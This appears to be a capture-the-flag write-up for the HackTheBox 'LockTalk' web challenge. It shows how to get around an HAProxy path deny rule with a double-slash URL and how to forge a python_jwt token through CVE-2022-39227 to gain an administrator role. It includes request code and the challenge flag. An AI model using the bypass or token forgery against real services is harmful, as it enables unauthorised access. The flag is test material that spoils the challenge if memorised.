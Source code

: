 # LockTalk

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance
against the rampant chaos inflicted by ransomware groups. In a world plunged
into turmoil by malicious cyber threats, LockTalk stands as a formidable force,
dedicated to protecting society from the insidious grip of ransomware. Chosen
participants, tasked with representing their districts, navigate a perilous
landscape fraught with ethical quandaries and treacherous challenges
orchestrated by LockTalk. Their journey intertwines with the organization's
mission to neutralize ransomware threats and restore order to a fractured
world. As players confront internal struggles and external adversaries, their
decisions shape the fate of not only themselves but also their fellow citizens,
driving them to unravel the mysteries surrounding LockTalk and choose between
succumbing to despair or standing resilient against the encroaching darkness.

## How to Play

By looking at `conf/requirements.txt` we can see a specific version of
python_jwt is used. Web search for `python_jwt==3.3.3 cve explot github` gives
us great [results](https://github.com/advisories/GHSA-5p8v-58qm-c7fp). "An
attacker who obtains a JWT can arbitrarily forge its contents without knowing
the secret key."

The in the server website the first get request a forbidden, and checking the
page `http://83.136.249.138:52682/api/v1/get_ticket` gives the same result.

In the `conf/haproxy.cfg` we can see this request is denied because it checks
if path begins with `/api/v1/get_ticket`.

```cfg
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

To bypass this we can use double slashes in the request. so the path begins with
`//` and the check fails. The request is then allowed.

```
http://83.136.249.138:52682//api/v1/get_ticket
```

And we get a ticket.

Search for `CVE-2022-39227 github` to find a
[script](https://github.com/user0x1337/CVE-2022-39227) to exploit the
vulnerability.

Add the token and the role to claim to the script.

```python
token = "eyJhbG
claim = "role=administrator"
```

The add the following to the script. To send a get request to the flag endpoint
that is in `/api/v1/flag` with the new payload.

```python
import requests
base = "http://83.136.249.138:52682/"
r = requests.get(base + "/api/v1/flag", headers={"Authorization": new_payload})
print(r.text)
```

Run the [script](cve_2022_39227.py) and get the flag.

## Flag

```
HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
```
